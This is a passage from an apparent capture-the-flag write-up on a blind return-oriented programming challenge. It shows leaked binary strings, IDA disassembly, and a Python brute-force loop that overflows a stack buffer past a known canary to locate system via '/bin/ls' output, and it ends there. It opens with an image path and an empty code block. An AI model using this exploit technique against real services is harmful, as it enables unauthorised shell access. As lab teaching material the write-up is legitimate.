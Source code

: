 ```python
```

Here is also content of the received bytes gotten, from which I notice a strings of 

```
[-] YEAR 2021, Aug.29th, Sunny. id: 5aSp5LiL56ys5LiA\x00\x00\x00\x00[-] ...i did not read today. i MUST read tomorrow, i must. \x00[-] INPUT something darker: \x00\x00\x00\x00[-] YEAR 2045, Sep.3rd, Rainy. id: 5aSp5LiL56ys5LiA\x00[-] i am still the richest man in the world, how boring it is...\x00\x00\x00\x00[-][-][-] What\'s this? >0x8048560\x00\x00\x00[-][-][-] it looks like a write@PLT... MAKE GOOD USE OF IT!\x00[-] YEAR 2077, Mar.15th, Cloudy. id: 5aSp5LiL56ys5LiA\x00\x00\x00[-] Holly shit, i met my girl, at age 77!!! INSANE~\x00/bin/sh\x00\x00/bin/ls\x00\x00\x00\x00[+] After so many things, you are still here, wandering.\x00\x00\x00\x00[#] fork() error! connect again!\x00[-] You are a good boy... \x00[+] You just refuse to grow up -_-
```

Here is a hint `[-][-][-] What\'s this? >0x8048560\x00\x00\x00[-][-][-] it looks like a write@PLT... MAKE GOOD USE OF IT!` which match the plt address 0x8048560 I found.

#### Disassemble

Using IDA Pro to find the address of the 2 strings

```
seg000:08048BA8 aBinSh          db '/bin/sh',0          ; DATA XREF: seg000:080487E3o
seg000:08048BB0                 db    0
seg000:08048BB1 aBinLs          db '/bin/ls',0          ; DATA XREF: seg000:080487F3o
```

### Step2 - get shell

#### Get system

Just use BF to try all the address as the callee function, which use `binls_addr` as argument and an stop address as return address(which will halt the program)

```python
for addr in range(0x8048000, 0x8048000+0x1000):
    payload = b'A' * buf_size + p32(canary) + b'A' * ra_offset
    payload += p32(addr) + p32(stop_addr)
    payload += p32(binls_addr)

    go_to_recv(1)
    p.send(payload)

    tmp = go_to_recv(1)

    if tmp[0:3] != b'[-]' and  tmp[0:3] != b'[+]':
        log.info('0x%x %s' % (addr, tmp))
```

Found 4 address that will output a "ls" result

```
[*] 0x8048520 b'app\nbin\ndev\nentry\nflag.exe\nlib\nlib32\nlib64\n[-] INPUT something darker: \n'
[*] 0x8048522 b'app\nbin\ndev\nentry\nflag.exe\nlib\nlib32\nlib64\n[-] INPUT something darker: \n'
[*] 0x8048524 b'app\nbin\ndev\nentry\nflag.exe\nlib\nlib32\nlib64\n[-] INPUT something darker: \n'
[*] 0x8048526 b'app\nbin\ndev\nentry\nflag.exe\nlib\nlib32\nlib64\n[-] INPUT something darker: \n'
```
